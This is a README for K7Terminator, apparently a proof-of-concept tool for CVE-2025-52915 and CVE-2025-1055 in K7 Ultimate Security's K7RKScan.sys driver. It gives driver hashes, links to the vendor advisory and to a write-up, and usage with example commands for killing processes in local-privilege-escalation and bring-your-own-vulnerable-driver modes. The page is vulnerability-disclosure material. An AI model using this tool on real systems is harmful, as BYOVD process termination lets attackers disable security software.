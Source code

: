# K7Terminator
- PoC for **CVE-2025-52915 & CVE-2025-1055** in **K7RKScan.sys** (K7 Ultimate Security)
- Affects:
  - **Legacy builds (15.1.0.6–7)** -> low-privilege abuse
  - **Current build (23.0.0.10)** -> admin/BYOVD abuse
- **[Vendor advisory issued](https://support.k7computing.com/index.php?/solutions/view-article/Advisory-issued-on-2nd-Sep-2025)**
- Full write-up & details: **[CVE-2025-52915: A BYOVD Evolution Story](https://blacksnufkin.github.io/posts/)**

**Driver hashes:**
- `K7RKScan.sys` **15.1.0.6** SHA256: `B16E217CDCA19E00C1B68BDFB28EAD53B20ADEABD6EDCD91542F9FBF48942877`
- `K7RKScan.sys` **23.0.0.10** SHA256: `5C6CE55A85F5D4640BD1485A72D0812BC4F5188EE966C5FE334248A7175D9040`

---

**Usage**

Place the vulnerable `K7RKScan.sys` in the same folder as the executable.  
Provide a **process name** or **PID**.  
(The file must be named `K7RKScan.sys`.)

```
K7RKScan Process Terminator - LPE + BYOVD (CVE-2025-52915) PoC

Usage: K7Terminator.exe [OPTIONS] --mode <mode>

Options:
  -m, --mode <mode>      lpe (wait for service) or byovd (load driver) [possible values: lpe, byovd]
  -p, --pid <pid>        Target process ID
  -n, --name <name>      Target process name(s)
  -l, --looper           Keep targeting processes
  -d, --driver <driver>  Driver path (default: ./K7RKScan.sys)
  -h, --help             Print help
  -V, --version          Print version

EXAMPLES:
  K7Terminator.exe -m lpe -n notepad.exe
  K7Terminator.exe -m byovd -p 1234
```